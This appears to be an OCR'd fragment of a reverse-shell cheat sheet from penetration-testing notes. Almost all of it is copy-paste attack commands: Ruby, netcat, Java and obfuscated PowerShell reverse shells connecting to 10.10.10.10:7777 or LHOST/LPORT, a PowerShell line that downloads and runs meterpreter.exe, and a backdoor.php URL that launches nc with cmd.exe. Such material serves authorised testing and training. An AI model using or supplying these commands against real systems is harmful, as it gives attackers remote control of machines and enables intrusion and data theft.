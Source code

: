 ```sh
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10”,7777).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
### Linux

```sh
nc -vn 10.10.10.10 7777 -e /bin/sh 
```

Windows

```sh
nc.exe -vn 10.10.10.10 7777 -e cmd.exe
```

Java

```sh
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/7777;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Powershell
```cmd
powershell.exe
Start-Process $PSHOME\powershell.exe -ArgumentList {$2ade49964b1f45d3895f7a92eaf4c16c = New-Object Sy''st""em.Net.So''ck""ets.TC''PC""lie''nt('*LHOST*',*LPORT*);$477356af73714e84b32757bed7bf19d9 = $2ade49964b1f45d3895f7a92eaf4c16c.GetStream();[byte[]]$7ec1ae18501f4199b9d45c4546641020 = 0..65535|%{0};while(($i = $477356af73714e84b32757bed7bf19d9.Read($7ec1ae18501f4199b9d45c4546641020, 0, $7ec1ae18501f4199b9d45c4546641020.Length)) -ne 0){;$06e8b3156f9449e2bafb69c8905285be = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($7ec1ae18501f4199b9d45c4546641020,0, $i);$sendback = (iex $06e8b3156f9449e2bafb69c8905285be 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p''w""d).Path + '> ';$33b751e1a76042b5a7abf9f2b7b9301a = ([text.encoding]::ASCII).GetBytes($sendback2);$477356af73714e84b32757bed7bf19d9.Write($33b751e1a76042b5a7abf9f2b7b9301a,0,$33b751e1a76042b5a7abf9f2b7b9301a.Length);$477356af73714e84b32757bed7bf19d9.Flush()};$2ade49964b1f45d3895f7a92eaf4c16c.Close()} -WindowStyle Hidden
```

PowerShell with nc.exe or another rev shell .exe

```pwsh
PowerShell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/files/meterpreter.exe','meterpreter.exe');Start-Process ‘meterpreter.exe'
Windows (Web app with command execution and nc.exe) 
http://1.1.1.1/backdoor.php?cmd=%22nc.exe%20-vn%2010.10.10.10%207777%20-e%20cmd.exe%22
```
# Ofuscacion


 
